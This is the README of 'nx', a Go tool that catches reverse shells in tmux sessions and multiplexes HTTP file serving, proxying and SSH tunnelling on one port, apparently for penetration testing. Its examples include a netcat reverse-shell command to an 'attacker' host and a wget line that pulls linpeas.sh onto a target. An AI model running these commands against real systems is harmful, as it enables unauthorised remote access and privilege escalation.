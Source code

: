 # nx

[n]etcat + tmu[x] - listen on a port and forward the stream to a tmux session

All-in-One:
- reverse shell
- http server
- http/s proxy
- port-forwarding-only ssh server

## Prerequisites

- tmux - required for session/window management

## Installation

### From source
```bash
git clone https://github.com/audibleblink/nx
cd nx
go build -o nx .
./nx --install-plugins  # Install bundled plugins
```

### Using go install
```bash
go install github.com/audibleblink/nx@latest
nx --install-plugins  # Install bundled plugins
```

The `--install-plugins` flag copies bundled plugins (like `auto.sh`) to `~/.config/nx/plugins/`. This only needs to be run once after installation.

## Usage

1. start a listener
```sh
nx -vp 9090
```

2. from a different machine, initiate the reverse shell
3. nx catches the connection then starts a tmux window in the `nx` session, and starts the shell there


## Features

- **Plugin system**: Use `--exec <plugin>` to run custom scripts on connection
- **Auto-upgrade to TTY**: Use `--exec auto` (or deprecated `--auto` flag) to automatically upgrade your shell to a TTY
- **Protocol multiplexing**: Serve files over HTTP, proxy network requests, and SSH tunneling on the same port as reverse shell connections
- **SSH tunneling**: Support for local (-L) and remote (-R) port forwarding with optional password authentication
- **XDG runtime paths**: Automatically uses XDG runtime directory for socket location
- **Signal handling**: Properly handles signals and performs cleanup

## Plugin System

nx supports a plugin system for executing custom commands when a new connection is established. Plugins are shell-like scripts stored in `~/.config/nx/plugins/`. They're typed letter by letter with tmux send-keys.

### Creating Plugins

1. Create a shell script in `~/.config/nx/plugins/<name>.sh`
1. Use the plugin: `nx --exec <name>`

### Plugin Format

Plugins are simple text scripts that are literally typed into your reverse shell:
- Lines starting with `#` are ignored (comments)
- Empty lines are ignored
- All other lines are executed as tmux `send-keys` commands in the reverse shell

### Example Plugin

```bash
#!/bin/bash
# Custom upgrade script
echo "Setting up environment..."
export PATH=/usr/local/bin:$PATH
whoami
```

### Built-in Plugins

- **auto**: TTY upgrade script
- **utils**: some QoL
- install with `nx --install-plugins`

## Protocol Multiplexing

nx can serve files over HTTP, act as an HTTP proxy, and provide SSH tunneling on the same port as shell connections. This allows you to serve files, create SSH tunnels, provide internet to air-gapped machines, and catch shells over a single port.

### HTTP File Serving

Enable file serving by specifying a directory with the `-d` or `--serve-dir` flag:

```bash
# Start nx with file serving enabled
nx -p 8443 -d ./files -v

# Shell connections still work normally
nc -e /bin/bash attacker 8443

# From target machine - download files
wget http://attacker:8443/linpeas.sh

```


## SSH Tunneling

nx supports SSH tunneling for port forwarding without providing shell access.

### SSH Usage Examples

```bash
# Start nx with SSH tunneling (no password)
nx -p 8443 -v

# Start nx with SSH password authentication
nx -p 8443 -s mypassword -v

# From client - Local port forwarding (-L)
ssh -L 8080:internal-server:80 -N user@attacker -p 8443

# From client - Remote port forwarding (-R)  
ssh -R 9090:localhost:22 -N user@attacker -p 8443
```


## How?

unix domain sockets mannn


## ToDo
- [x] ~~maybe a plugin system for sending commands on connection~~ ✅ **DONE**: Implemented plugin system with `--exec` flag
- [x] ~~some mechanism to auto-upgrade the shell to a TTY via tmux-send-keys or sourcing a script that just adds the keybinds, so that it's up to the user to fire off the upgrade~~ ✅ **DONE**: Auto-upgrade via `--exec auto`
- [x] ~~alternatively, multiplex the connection to allow `curl | sh` from the same port~~ ✅ **DONE**: Protocol multiplexing with `--serve-dir`
- [x] ~~multiplexing listener~~ ✅ **DONE**: HTTP/shell protocol detection on same port
- [x] ~~super simple chisel-light functionality~~ ✅ **DONE**: SSH tunneling with local/remote port forwarding
- [x] facilitate installing plugins dir to xdg
- [x] handle stdio with the socket directly with `nx`, eliminating the need for `socat`

